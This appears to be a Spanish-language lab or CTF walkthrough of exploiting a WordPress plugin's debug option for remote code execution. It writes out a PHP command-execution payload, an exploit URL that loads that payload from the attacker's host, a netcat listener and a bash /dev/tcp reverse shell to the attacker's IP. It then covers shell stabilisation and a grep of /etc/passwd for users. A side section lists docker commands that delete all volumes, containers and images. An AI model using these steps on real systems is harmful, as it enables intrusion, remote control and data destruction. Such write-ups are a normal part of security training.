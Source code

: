 <pre>system('hostname -I')</pre>

Para controlar el comando a introducir hacemos una modificacion en el payload

<pre>system($_GET['cmd'])</pre>

Una vez modificado en la url agregamos un &cmd como parametro que es el que pusimos en el payload y le agregamos el comando

http://192.168.1.12/wordpress/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://192.168.1.97/payload.txt&cmd=ls

Con la premisa de que podemos ejeutar codigo en la maquina habriremos un puerto de escucha en nuestra pc e intentremos crear una coneccion desde el servidor a nuestra maquina esto lo haremos con netcat 
**nc -nlvp 443**
y posteriormete le enviamos por la url la peticion de conexion oneliner reverse shell 
**bash -c "bash -i >& /dev/tcp/192.168.1.97/443 0>&1"**   
es recomendable cambiar el & por su equivalente en urlencode cullo valor es %26  
**bash -c "bash -i >%26 /dev/tcp/192.168.1.97/443 0>%261"** este es el que funciona despues de hacer las pruebas con los 2
 de aqui vemos que se nos conecta una session a nuestro puerto de nc

### `$(...)`

Esto es **expansión de comandos** en Bash. Significa: _ejecuta el comando dentro de los paréntesis y reemplázalo por su salida_.
**docker volume rm $(docker volume ls -q) este comando se conviere en** 
**docker volume rm vol1 vol2 vol3 esto sirve para borrar todos los volumenes** 

Otras variante 
**docker rm $(docker ps -a -q) --force  borra todos los contenedores**
**docker rmi $(docker images -q) borra todos las imagenes**

Ahora haremos un tratamiento de la consola pues no estamos operando desde una tty
utilizamos el comando **tty**  el cual nos responde que no es una tty
Lo siguiente es
truco clásico de Unix/Linux que **abre una nueva shell "limpia"** usando el comando `script`, pero **sin guardar un archivo de registro**
###### script /dev/null -c bash 
 precionamos Ctrl+z para pausar nc y ejecutamos el comando 
 **stty raw -echo; fg**  
 y luego reseteamos la terminal con 
 **reset xterm** 
 esto nos permitira precionar Ctrl+c sin sacarnos del la terminal remota 
 luego revisamos **echo $TERM** para cambiar su valor a **xterm**  **export TERM=xterm** esto nos permitira utilizar **Ctrl+l** 
 Ahora modificaremos las dimenciones de la tty para trabajar mejor
 Revisamos el tamanno del **tty** 
 **stty size**  y revisamos el de nuestra consola para agregarlo a la de la maquina objetivo como:
**stty rows 43 columns 184** esos son los valores de nuestra consola personal

Buscamos algun usuario que tenga permiso de ejecucion de una bash
**grep "sh$" /etc/passwd**   Obtenemos uno que es takis
